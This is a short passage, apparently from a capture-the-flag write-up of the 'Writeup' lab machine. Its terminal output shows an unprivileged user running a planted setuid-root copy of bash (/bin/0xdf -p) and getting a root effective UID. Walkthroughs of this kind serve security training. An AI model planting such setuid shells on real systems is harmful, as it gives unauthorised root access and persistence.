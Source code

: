     
    
    jkr@writeup:~$ ls -l /bin/0xdf 
    -rwsr-xr-x 1 root root 1099016 Jun 17 03:39 /bin/0xdf
    jkr@writeup:~$ date
    Mon Jun 17 03:32:45 EDT 2019
    jkr@writeup:~$ date
    Mon Jun 17 03:33:06 EDT 2019
    jkr@writeup:~$ ls -l /bin/0xdf
    -rwsr-xr-x 1 root root 1099016 Jun 17 03:39 /bin/0xdf
    jkr@writeup:~$ /bin/0xdf -p
    0xdf-4.4# id
    uid=1000(jkr) gid=1000(jkr) euid=0(root) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
    

[](/2019/10/12/htb-writeup.html)

